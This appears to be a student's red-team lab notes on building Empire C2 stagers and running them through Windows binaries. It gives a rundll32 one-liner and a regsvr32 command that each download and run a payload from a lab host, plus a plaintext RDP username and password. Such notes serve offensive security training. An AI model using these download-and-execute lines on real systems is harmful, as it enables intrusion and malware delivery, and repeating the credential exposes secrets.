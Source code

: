 #### Tags: [[12 - Command and Control (TA0011)]]

## Objectives

    Create different payloads for familiarity
    Test payloads from the range
    Use additional tools to enhance payloads
## Overview
This lab will focus on creating multiple payloads and then testing them in the student range. We will use various methods to gain familiarity with different techniques.

### 1. Launch [[Empire C2#Create an Empire listener]]

## [[PowerShell Stager with rundll32.exe]]

#### *Payload:* Create Powershell Stager

#### *Execution Technique:* 
```markdown
# Executing Stager with rundll32.exe
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://10.254.252.3:8000/setup.ps1');")
```

----
## [[SCT stager and execute with regsvr32.exe]]

#### *Payload:* Create a SCT stager
`xfreerdp +clipboard /cert-ignore /u:Gareth.Kilgallen /p:Hu825meapvsAq#Rx /v:wk01.draconem.corp`

#### *Execution Technique:* 
```markdown
# Executing Stager with regsvr32.exe
regsvr32 /s /n /u /i:http://10.254.252.3:8000/config.sct scrobj.dll
```

---
## [[WMIC stager and execute with wmic]]

#### *Payload:* Create WMIC Stager

#### *Execution Technique:*  Executing Stager with wmic

---

## [[HTA stager and execute with mshta.exe]]

#### *Payload:* Create HTA Stager

#### *Execution Technique:* Executing Stager with mshta.exe

----
### Executing Techniques

Link to Heading
and create 2 - Payloads & Execution Tech 

#### Notes
- Create Links
- Bonus RT Sections 
	- Learn to deploy payload without RDP 
	- Learn to leverage Cobalt strike for payload creation

## Conclusion

